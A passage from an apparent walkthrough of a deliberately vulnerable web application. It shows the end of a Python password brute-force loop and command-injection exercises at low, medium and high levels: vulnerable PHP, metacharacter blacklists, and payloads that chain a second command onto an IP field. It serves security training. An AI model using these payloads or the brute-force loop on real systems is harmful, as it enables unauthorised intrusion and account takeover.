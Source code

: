 ```py
    p = passwords.readline().strip()
    url = get_url(username,p,token)
    r = session.get(url,cookies=COOKIES)
    if 'incorrect' in r.text:
        print("Trying ",p)
    else:
        print("Found ",p)
        break
```

# Command Injection
Trying to inject a windows command - `dir`
## Low
```php
$target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
```
It is directly executing the ``$target`` without any input validation.
**Attack :** 127.0.0.1 && dir
## Medium
Some level of input validation is performed this time,
```php
// Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```
But, notice that only `&&` is being replaced, we can use `&`.
**Attack :** 127.0.0.1 & dir
## High
More Filtering has been done,
```php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the characters in the array (blacklist).
```